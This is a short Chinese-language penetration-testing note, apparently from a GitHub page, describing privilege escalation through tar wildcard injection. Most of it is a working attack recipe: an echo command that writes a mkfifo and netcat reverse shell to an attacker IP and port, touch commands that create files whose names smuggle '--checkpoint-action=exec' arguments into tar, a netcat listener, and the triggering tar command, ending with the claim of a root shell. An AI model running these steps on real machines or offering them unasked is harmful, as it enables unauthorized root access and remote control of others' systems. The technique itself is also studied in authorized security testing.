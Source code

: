 ## 以普通用户进入目标机后，若是可以运行tar指令，则可以通过以下的方法进行提权
## 原理：
tar有通配符*的漏洞，tar用通配符来压缩文件并读取文件名，若是看到有参数则将执行。

## 操作：
### 1.先cd到一个用户有完全执行命令的文件夹下
例如：www-data用户的完全权限文件夹为/var/www/html

### 2.创建一个reverse shell脚本
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc you_ip 1234 >/tmp/f' > shell.sh

you_ip为本机IP地址
1234为将要监听的端口
```

### 3.创建tar将要运行的参数
```
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

### 4.在本机上打开本地监听
```
nc -lnvp 1234
```

### 5.在目标机上执行命令
```
tar cf /var/www/html.tgz *

c代表创建
f代表类型为文件
最后的通配符*是精华所在
这整个命令意思就是：
因为之前已经cd到/var/www/html目录下了，
然后就直接将这整个目录下的所有文件进行压缩，
如果遇到参数则执行，压缩后创建一个文件，创建的文件目录可以随便定个可以写入的目录
```

最后在本地机上就已经以root登入了
